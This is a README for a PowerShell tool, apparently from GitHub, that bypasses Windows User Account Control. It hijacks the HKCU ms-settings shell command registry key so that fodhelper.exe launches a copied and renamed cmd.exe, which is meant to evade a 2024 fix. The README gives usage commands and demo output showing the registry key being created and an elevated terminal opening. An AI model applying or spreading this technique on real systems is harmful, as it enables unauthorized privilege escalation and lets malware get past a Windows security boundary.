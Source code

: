 # HelloKittyUACBypass
A simple script to bypass UAC using fodhelper process even in the 2024 after "patch"
Note: This script is a bit unstable so feel free to modify, its preferable not use as script but exec evry step as powershell command.

# How it work? 
Its basicaly the default script for uac bypass that u can find here https://github.com/winscripting/UAC-bypass/blob/master/FodhelperBypass.ps1
But copy cmd from C:\Windows\System32\cmd.exe and rename it.
Ofc u can edit process and method. 
## Execution
Basic use
```
.\hellokittySayHello.ps1
```

Clearing
```
.\hellokittySayHello.ps1 -clear
```

# What i edit?
- Add function clear that remove reguster and .exe file
- New Params:
  - Destination path
  - Username of current user

# This edit make it more usable or better?
No. The process of bypass still the same just using copy to bypass the "fix"

# Why HelloKitty?
Becouse its funny

# Demo
# Ofc as always u need to be part of localadmin group

```
PS C:\Users\IlMurloDiplomato\Desktop> whoami /priv

INFORMAZIONI PRIVILEGI
----------------------

Nome privilegio               Descrizione                               Stato
============================= ========================================= ============
SeShutdownPrivilege           Arresto del sistema                       Disabilitato
SeChangeNotifyPrivilege       Ignorare controllo incrociato             Abilitato
SeUndockPrivilege             Rimozione del computer dall'alloggiamento Disabilitato
SeIncreaseWorkingSetPrivilege Aumento di un working set di processo     Disabilitato
SeTimeZonePrivilege           Modifica del fuso orario                  Disabilitato
```

```
PS C:\Users\IlMurloDiplomato\Desktop> .\hellokittySayHello.ps1


    Hive: HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open


Name                           Property
----                           --------
command

DelegateExecute :
PSPath          : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
PSParentPath    : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open
PSChildName     : command
PSDrive         : HKCU
PSProvider      : Microsoft.PowerShell.Core\Registry

Hellokitty says Hello! ^.^


PS C:\Users\IlMurloDiplomato\Desktop> ls


    Directory: C:\Users\IlMurloDiplomato\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        09/05/2024     17:38         323584 hellokitty.exe
-a----        25/06/2024     12:45           1302 hellokittySayHello.ps1

PS C:\Users\IlMurloDiplomato\Desktop> fodhelper.exe
PS C:\Users\IlMurloDiplomato\Desktop>
```

In my case thats open a new terminal
```
Impossibile trovare il testo del messaggio per il numero di messaggio 0x2350 nel file di messaggio per Application.

(c) Microsoft Corporation. Tutti i diritti riservati.
Risorse di memoria disponibili insufficienti per elaborare il comando.

C:\Windows\System32>
```
